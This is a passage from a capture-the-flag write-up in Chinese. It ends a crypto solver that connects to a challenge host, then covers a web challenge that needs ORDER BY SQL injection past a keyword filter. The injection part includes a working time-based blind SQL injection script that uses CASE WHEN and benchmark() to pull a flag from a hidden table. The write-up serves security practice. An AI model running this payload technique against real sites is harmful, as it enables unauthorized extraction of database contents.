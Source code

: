 ```python
        text = text + ('\0' * add)
        return binascii.hexlify(cryptor.encrypt(text))

    def decrypt(self, text):
        cryptor = AES.new(self.key, self.mode, self.iv)
        plain_text = cryptor.decrypt(binascii.unhexlify(text))
        return plain_text.rstrip('\0')


p = remote('node1.binlep.top', 28067)
pc = prpcrypt('In_fact_binLep_is_boring', '\x00' * 16)
p.recvuntil('cipher = ')
c = p.recvuntil('\n')[:-1]
success('answer = ' + pc.decrypt(c))
```

## Web

### SSQL

过滤了 and，or，|，&，#，-，sleep，if，flag

点击 hint 会在上面显示 desc，然后排序会倒过来

所以语句大概是 `select * from (表名) order by id ($ccc);`

order by 后注入，拿运算符拼接一下就会执行

由于 if 被过滤了，所以使用 case when

大概有两种思路，一种是利用 id 取余时回显不同进行布尔盲注

另一种是用延迟进行时间盲注，sleep 被过滤了，所以这里用 `benchmark(2000000,sha1(1))`

也就是执行 2000000 次 sha(1) 加密

另外 flag 在 secret 表的 flag 字段，这里需要用无列名注入

以下为时间盲注的 payload

```python
import requests
import time

s = requests.session()

url = "http://192.168.144.137:8080?ccc=* case when ascii(substr((select c from (select 1,2 as c union select * from secret)x limit 1,1),{},1))={} then benchmark(2000000,sha1(1)) else 1 end"
flag = ''
for i in range(1, 50):
    for j in range(32, 128):
        starTime = time.time()
        yuju = url.format(int(i), int(j))
        r = s.get(yuju)
        if (time.time() - starTime) > 3:
            flag += chr(j)
            print(flag)
            break
print('the flag is' + flag)
```
